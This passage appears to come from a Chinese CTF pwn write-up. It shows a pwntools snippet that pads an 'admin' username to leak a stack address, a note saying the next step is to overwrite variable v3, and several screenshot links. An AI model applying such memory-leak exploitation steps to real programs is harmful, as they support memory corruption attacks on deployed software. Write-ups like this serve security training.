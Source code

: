 ```plain
ru('Username :')
pl='admin'
pl=pl.ljust(24,'a')
s(pl)
ru('adminaaaaaaaaaaaaaaaaaaa')
stack=u32(r(4))
leak('stack ',stack)
```

[![](assets/1705903019-2a12f671a2f8783d55e706e070b10baa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192448-856882a2-b786-1.png)

[![](assets/1705903019-71262271dc74dfb5a05e8a5987765f43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192453-8811791e-b786-1.png)  
泄露出了栈地址，然后再去修改 v3

[![](assets/1705903019-30618248792bc571aae200b115d15f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192501-8cd0c50e-b786-1.png)  